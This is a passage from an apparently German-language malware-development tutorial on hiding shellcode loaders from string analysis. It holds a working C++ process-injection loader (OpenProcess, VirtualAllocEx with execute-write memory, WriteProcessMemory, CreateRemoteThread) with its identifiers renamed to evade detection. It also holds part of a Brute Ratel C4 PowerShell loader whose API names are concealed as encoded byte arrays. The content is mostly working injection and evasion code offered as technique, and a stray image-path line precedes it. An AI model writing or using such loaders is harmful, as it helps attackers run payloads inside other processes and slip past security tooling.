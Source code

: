 Beachten Sie, dass alle iostreams in Zeichenfolgen geschrieben wurden und sogar das Byte-Array des Shellcodes durchgesickert ist. Dies ist ein kleineres Programm, also stellen Sie sich vor, wie ein ausführliches und nicht obfuskiertes Programm aussehen würde!

Um dieses Problem zu lösen, können wir Kommentare entfernen und die bedeutungsvollen Bezeichner ersetzen.
```c++
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

Wir sollten keine identifizierbaren Zeichenfolgeninformationen mehr haben, und das Programm ist vor Zeichenfolgenanalysen geschützt.
##
Als Beispiel für eine interpretierte Sprache können wir den veralteten [Badger PowerShell Loader](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit) aus dem [BRC4 Community Kit](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1) betrachten.
```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
```
